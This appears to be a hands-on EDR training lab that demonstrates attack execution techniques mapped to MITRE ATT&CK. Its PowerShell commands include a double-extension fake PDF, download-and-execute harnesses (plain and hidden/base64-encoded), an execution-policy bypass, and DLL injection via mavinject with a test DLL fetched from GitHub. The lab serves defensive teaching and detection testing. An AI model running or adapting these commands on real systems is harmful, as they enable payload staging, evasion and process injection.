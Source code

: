 ```yaml
---
Title: ATT&CK - Execution Phase
Description: Demonstrate the execution phase of an attack
Author: Chris Gerritz, Datto
Created: 04/07/2025
Achievements:
Duration: 20
Range:
- Windows
Applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
- Office
- Adobe Reader
External:
- attack.mitre.org
- allitshop.infocyte.com
- live.sysinternals.com/psexec.exe
- github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055.001/src/x64/T1055.001.dll
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. 

Lab 2 will demonstrate a post-compromise execution phase of an attack where initial exploits have already granted privileged access to the target system and now you need to execute some commands and download/execute additional malware payloads.

Typically, the 'Initial Execution' will be a very small command called a download harness and this is executed in one of two ways:
1. Via an exploit of a vulnerable application
2. Via an internal user through social engineering

In order to grant the attacker additional functionality such as recon, lateral movement or ransomware staging, they will need to inject a more feature rich malware type called a Remote Access Tool (aka a "RAT") following that initial execution. This follow on execution will utilize administrative commands which we can detect during behavioral monitoring.

---

## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs: KNOWLEDGE,UNDERSTAND, APPLY, ANALYZE, EVALUATE, CREATE
- https://www.teachthought.com/critical-thinking/blooms-taxonomy-verbs-2/
-->
1. Understand the initial steps of an attack that uses staged malware
2. Demonstrate some execution techniques to get initial trojans or follow-on malware payloads to run

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |


## Preparation Instructions

Ignore this if you already ran it in a previous lab and are re-using the same Powershell window.

1. Open powershell as an administrator
	- Right click Powershell
	- Click "Run as Administrator"
2. Prepare the enviroment with some variables we will use later
	- Copy and paste this command into the terminal:
	```PowerShell
	#Define a random number (This will be used to force Datto EDR not to deduplicate repeated commands during testing)
	$n = 1000+$(Get-Random -Max 999)
	# Bypass signed script controls
	Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force

	```
-----
## Instructions

For each of these labs, you will need your Powershell window open. You can use the same window for all labs. You will be copying and pasting commands into the terminal and then evaluating the output.

w> All labs require you to be running as an administrator. 



### 1. Double Extension Execution
> *Initial execution is often through a social engineering attack. This first technique hides an executable as a pdf file. The hope is the user will download this file and double click it to see what it is. When they do, our trojan will execute and give us a (simulated) callback where we can tell it to run additional commands.*

Execute a file with a **Double Extension**. 
- MITRE ATT&CK Technique: [ATT&CK T1204.002 - Execution - User Execution: Malicious File](https://attack.mitre.org/techniques/T1204/002)
- MITRE ATT&CK Technique: [ATT&CK T1036.007 - Evasion - Masquerading: Double File Extension](https://attack.mitre.org/techniques/T1036/007)
- Copy and paste this command into the terminal:
	```PowerShell
	# Double Extension
	Write-Host -ForegroundColor Cyan "Initiating a T1204.002 - Malicious File Extension with Double Extension evasion"
	$MalwarePath = "C:\Windows\System32\calc.exe"
	$TrojanPath = "$Env:USERPROFILE\Desktop\freemoney.pdf.exe"

	Copy-Item -Path $MalwarePath -Destination $TrojanPath -Force
	Get-Item $TrojanPath
	Write-Host -ForegroundColor Cyan "Go ahead and double click freemoney.pdf on your desktop"
	```
- Next, go to your desktop and double click freemoney.pdf and see what happens.


### 2. Powershell Download Harness
> *The following method is used by some malware to download and execute an additional file using Powershell. This is the simplest way to do this and often used legitimatly so the technique can blend the malicious action in with existing noise produced by admins.*

Execute a simple **Powershell Download Harness**. 
- MITRE ATT&CK Technique: [ATT&CK T1059.001 - Execution - Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/001)
- Copy and paste this command into the terminal:
	```PowerShell
	# Powershell Download Hardness
	Write-Host -ForegroundColor Cyan "Initiating a T1059.001 - Powershell Download Harness"
	$url = "https://live.sysinternals.com/psexec.exe"
	$filename = "$env:TEMP\bad.exe"

	$cmd = "(new-object System.Net.WebClient).DownloadFile('$url', '$filename'); Start-Sleep -m $n"
	Write-Host -ForegroundColor Cyan "Running Command:"
	Write-Host -ForegroundColor Green "Powershell.exe -command '$cmd'"
	Powershell.exe -command $cmd

	Get-Item $filename
	```


### 3. Hidden & Encoded Powershell Download Harness
> *Most attackers aren't going to want you seeing the command or the powershell window poping up so they will use obfuscation and stealth techniques with this.*

Execute it again, but this time as a **Hidden & Encoded Powershell Download Harness**. 
- MITRE ATT&CK Technique: [ATT&CK T1059.001 - Execution - Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/001)
- MITRE ATT&CK Technique: [ATT&CK T1027 - Evasion - Obfuscated Files or Information](https://attack.mitre.org/techniques/T1027)
- Copy and paste this command into the terminal:
	```PowerShell
	# Encoded and Hidden Powershell Download Harness
	Write-Host -ForegroundColor Cyan "Initiating a T1059.001 - Powershell Encoded and hidden Download Harness"
	$EncodedCommand = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($Cmd)
	)
	Write-Host -ForegroundColor Cyan "Running Command:"
	Write-Host -ForegroundColor Green "powershell.exe -win H -NoP -e '$EncodedCommand'"
	powershell.exe -win H -NoP -e $EncodedCommand
	```

w> This will hide your browser, you may need to open a new browser after performing this command.


### 4. System Binary Proxy Execution
> *One method to evade antivirus is to force a legitimate system application to run the attacker's code/malware on the attacker's behalf. A common method is to inject the malware's code as a library into the memory of a system process.*
>
> *The method we'll demonstrate today is a Microsoft utility called `mavinject`.  Mavinject.exe is the **Microsoft Application Virtualization Injector**, a Windows utility that can inject code into external processes as part of Microsoft Application Virtualization (App-V). This utility is installed by default on most modern Windows versions but shouldn't really be used unless App-V is in use.*

1. Use mavinject.exe to perform a **System Binary Proxy Execution** technique
- [ATT&CK T1218.013 - Defense Evasion - Signed Binary Proxy Execution](https://attack.mitre.org/techniques/T1218/013)
- [ATT&CK T1055.001 - Defense Evasion - Process Injection: Dynamic-link Library Injection](https://attack.mitre.org/techniques/T1055/001)
- Copy and paste this command into the terminal:
	```PowerShell
	# Signed Binary Proxy Execution w/ mavinject.exe
	Write-Host -ForegroundColor Cyan "Initiating a T1218.013 - Signed Binary Proxy Execution using mavinject.exe"
	$malwareURL = "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055.001/src/x64/T1055.001.dll"
	# start and inject into notepad or calc
	$targetProcessName = "notepad"
	$cmd = @"
		`$targetProcessId = (Start-Process $targetProcessName -PassThru).id
		Invoke-WebRequest $malwareURL -OutFile "$env:temp\T1055.001.dll"
		mavinject `$targetProcessId /INJECTRUNNING $env:temp\T1055.001.dll
		Start-Sleep -m $n
	"@
	powershell.exe -nop -command $cmd
	```

	s> If you are successful, the code we are injecting will force notepad to run a popup that says "Locked and Loaded".
